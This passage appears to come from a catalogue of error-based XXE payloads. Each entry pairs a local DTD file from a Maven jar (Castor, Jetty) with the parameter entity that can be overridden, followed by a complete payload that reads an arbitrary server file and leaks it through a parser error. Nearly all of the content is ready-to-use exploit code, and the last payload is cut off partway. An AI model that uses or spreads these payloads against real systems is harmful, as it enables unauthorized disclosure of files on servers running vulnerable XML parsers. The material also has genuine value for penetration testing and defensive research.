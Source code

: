 **Injectable entity:** `%distinguished-name`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/codehaus/castor/castor-xml/1.3.3/castor-xml-1.3.3.jar!/org/exolab/castor/dsml/schema/dsml.dtd">

    <!ENTITY % distinguished-name '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/eclipse/jetty/jetty-xml/8.1.16.v20140903/jetty-xml-8.1.16.v20140903.jar!/org/eclipse/jetty/xml/configure_6_0.dtd`

**Injectable entity:** `%CONFIG`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/eclipse/jetty/jetty-xml/8.1.16.v20140903/jetty-xml-8.1.16.v20140903.jar!/org/eclipse/jetty/xml/configure_6_0.dtd">

    <!ENTITY % CONFIG 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/eclipse/jetty/jetty-xml/8.1.16.v20140903/jetty-xml-8.1.16.v20140903.jar!/org/eclipse/jetty/xml/configure_7_6.dtd`

**Injectable entity:** `%CONFIG`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/eclipse/jetty/jetty-xml/8.1.16.v20140903/jetty-xml-8.1.16.v20140903.jar!/org/eclipse/jetty/xml/configure_7_6.dtd">

    <!ENTITY % CONFIG 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

```